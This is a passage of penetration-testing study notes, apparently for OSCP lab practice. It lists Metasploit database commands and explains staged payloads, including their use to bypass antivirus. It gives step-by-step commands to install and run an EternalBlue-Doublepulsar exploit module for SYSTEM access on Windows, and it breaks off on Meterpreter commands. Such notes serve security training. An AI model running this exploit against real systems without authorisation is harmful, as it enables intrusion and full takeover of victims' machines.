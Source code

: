     -   Scan for hosts and store them in the MSF database  
   
        `db_nmap`
 
    -   Search machines for specific ports in MSF database
   
        `services -p 443`
 
    -   Leverage MSF database to scan SMB ports (auto-completed rhosts)  
       
        `services -p 443 --rhosts`
 
-   Staged and Non-staged
 
    -   Non-staged payload - is a payload that is sent in its entirety in one go
 
    -   Staged - sent in two parts  Not have enough buffer space  Or need to bypass antivirus
 
 -   MS 17-010 - EternalBlue
 
    -   You may find some boxes that are vulnerable to MS17-010 (AKA. EternalBlue).  Although, not offically part of the indended course, this exploit can be leveraged to gain SYSTEM level access to a Windows box.  I have never had much luck using the built in Metasploit EternalBlue module.  I found that the elevenpaths version works much more relabily. Here are the instructions to install it taken from the following YouTube video:
    https://www.youtube.com/watch?v=4OHLor9VaRI
   
     
      1. First step is to configure the Kali to work with wine 32bit
     
      `dpkg --add-architecture i386 && apt-get update && apt-get install wine32
      rm -r ~/.wine
      wine cmd.exe
      exit`
           
      2. Download the exploit repostory
      https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit
     
      3. Move the exploit to /usr /share /metasploit-framework /modules /exploits /windows /smb
 
      4. Start metasploit console
     
 
I found that using spoolsv.exe as the PROCESSINJECT yielded results on OSCP boxes.
 
     
      `use exploit/windows/smb/eternalblue_doublepulsar
      msf exploit(eternalblue_doublepulsar) > set RHOST 10.10.10.10
      RHOST => 10.11.1.73
      msf exploit(eternalblue_doublepulsar) > set PROCESSINJECT spoolsv.exe
      PROCESSINJECT => spoolsv.exe
      msf exploit(eternalblue_doublepulsar) > run`
     
 
 
-   Experimenting with Meterpreter
 
    -   Get system information from Meterpreter Shell  
   
        `sysinfo`
 
    -   Get user id from Meterpreter Shell  
   